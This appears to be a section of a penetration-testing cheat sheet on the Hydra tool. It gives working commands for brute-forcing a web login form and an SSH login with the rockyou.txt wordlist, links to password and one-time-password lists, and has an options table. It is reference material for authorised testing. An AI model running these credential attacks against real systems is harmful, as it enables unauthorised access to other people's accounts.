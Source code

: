 ### Hydra

Crack an HTTP POST web form login:

```fundamental
hydra -l admin -P rockyou.txt somesite.com http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!" -o hydra_results.txt
```

When cracking a web form login, you must specify `Login=Login:<expected_message>` to distinguish between a successful login and failed one. Each expected message can vary between web forms.

Keep in mind that the `username` and `password` request parameters can be named differently.

Crack a Secure Shell login:

```fundamental
hydra -L users.txt -P rockyou.txt 192.168.8.5 ssh -o hydra_results.txt
```

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` directory or download it from [/dict/rockyou.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).

Also, check the one-time-password lists in [/dict/otp.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/tree/master/dict).

| Option | Description |
| --- | --- |
| -R | Restore a previous aborted/crashed session |
| -S | Perform an SSL connect |
| -s | If the service is on a different default port, define it here |
| -l | Login with a login name |
| -L | Load several logins from a file |
| -p | Login with a password |
| -P | Load several passwords from a file |
| -x | Password brute force generation (MIN:MAX:CHARSET), type "-x -h" to get help |
| -y | Disable use of symbols in bruteforce |
| -e | Try "n" null password, "s" login as pass and/or "r" reversed login |
| -M | List of servers to attack, one entry per line, ':' to specify port |
| -f/-F | Exit when a login/pass pair is found (-f per host, -F global) |
| -o | Write found login/password pairs to a file instead of stdout |
| -O | Use old SSL v2 and v3 |

For more options run `man hydra` or `hydra -h`.
